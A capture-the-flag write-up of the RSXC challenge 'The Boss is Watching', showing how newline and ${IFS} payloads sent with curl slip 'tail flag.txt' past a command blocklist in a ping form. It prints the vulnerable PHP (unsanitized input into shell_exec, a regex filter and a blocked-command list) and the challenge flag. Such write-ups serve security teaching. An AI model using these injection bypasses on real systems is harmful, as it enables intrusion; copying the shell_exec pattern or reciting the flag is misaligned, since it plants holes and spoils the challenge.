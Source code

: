 4 - The Boss is Watching
464
Once in a remote Norwegian town, a group of skilled security professionals had convened in a fancy cabin to collaborate and achieve their objectives. On their network, they found a number of challenges that required their collective expertise. Do you have what it takes to tackle these challenges too?

http://rsxc.no:9008

# Note

Number 3 to 6 I used a few minutes to check out, then I randomly tested if the flag was unprotected as it is in the same folder as the `index.php` and sure enough. I could just access `flag.txt` by adding that to the URL. So my points skyrocketed at that moment. 

I knew that was not the intended solution so even if I got the flag I wanted to complete it "legally" before continuing so I could write a proper writeup.

**Update**: This was fixed later on and flag is now in `/flag.txt`. This writeup still works the same just add a `/`

# Writup

Guessing that it is harder than 3, I just try this command anyway:

```console
toffe@kali:~$ curl http://rsxc.no:9007 -d "ip=
cat\${IFS}flag.txt"
```

`Illegal Command Discovered` - So no character, it does not like `cat`? I tried a whole lot but then I remember tail, head, more, less.. Lets try `tail`

```console
toffe@kali:~$ curl http://rsxc.no:9008 -d "ip=
tail\${IFS}flag.txt"
```

Bingo! Extracting index.php here fails with `tail` but adding `-n9999` works and I get this output:

```php
if ($_SERVER['REQUEST_METHOD'] == 'POST') {
    $ip = $_POST['ip'];
    
    if (preg_match('/[&|;`\'" ]/',$ip)) {
        echo "<p align='center' style='color:red;'>Illegal Input Discovered</p>";
        die();
    }
    
    $blocked_commands = array("dir", "strings", "ls", "cat", "whoami", "pwd", "ps", "id", "echo", "kill", "touch", "more");
    foreach($blocked_commands as $command) {
        if (stripos($ip, $command) !== false) {
            echo "<p align='center' style='color:red;'>Illegal Command Discovered</p>";
            die();
        }
    }
    
    $output = shell_exec("ping -c 1 $ip");
    echo "<pre class='output'>$output</pre>";
}
```

Oh well.. They keep locking us out! :)


# Flag

```
RSXC{GREAT_JOB_YOU_FIGURED_OUT_HOW_TO_CIRCUMVENT_THE_BLOCKED_COMMANDS}
```